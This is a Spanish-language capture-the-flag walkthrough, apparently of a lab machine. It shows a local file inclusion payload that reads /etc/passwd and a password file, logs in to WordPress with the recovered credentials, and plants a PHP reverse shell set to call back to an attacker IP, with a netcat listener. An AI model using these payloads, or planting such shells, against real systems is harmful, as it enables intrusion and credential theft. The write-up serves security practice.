 # Foothold
El archivo location.txt nos ha proporcionado una pista para utilizar el parámetro 'secretier360' en otra página php. Ahora, intentaremos explotar la inclusión de archivos locales (LFI) ejecutando el siguiente comando para extraer el archivo /etc/passwd
```bash
http://10.0.1.23/image.php?secrettier360=../../../etc/passwd
```
Hemos logrado acceder al archivo /etc/passwd de la máquina host
```bash
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/
- - - - 
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false victor:x:1000:1000:victor,,,:/home/victor:/bin/bash mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false saket:x:1001:1001:find password.txt file in my directory:/home/saket: sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin 
```
El usuario Saket está dando una indicación para buscar dentro de su directorio en busca del archivo password.txt
```bash
http://10.0.1.23/image.php?secrettier360=/home/saket/password.txt
```
Con esto, hemos obtenido una contraseña. Al iniciar la máquina, notamos un usuario llamado Victor en la pantalla de inicio de sesión, por lo que esta contraseña podría ser la suya
```bash
finaly you got the right parameter

follow_the_ippsec 
```
Credenciales:
```bash
username: victor
password: follow_the_ippsec
```
Con estas credenciales, intentaremos acceder al login de WordPress (/wp-login.php). Vamos a intentar inyectar scripts PHP maliciosos a través de plantillas de temas. Hemos encontrado un archivo llamado secret.php, por lo que nuestro código malicioso se alojará aquí. Esto se encuentra en appearance > Theme Editor > secret.php, Podemos utilizar la reverse shell de [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
```bash
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.0.1.11';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Una vez que hayamos subido el archivo, usamos el comando netcat para escuchar en el puerto que hayamos especificado en la shell
```bash
nc -lvnp 1234
```
```bash
http://10.0.1.23/wordpress/wp-content/themes/twentynineteen/secret.php
```
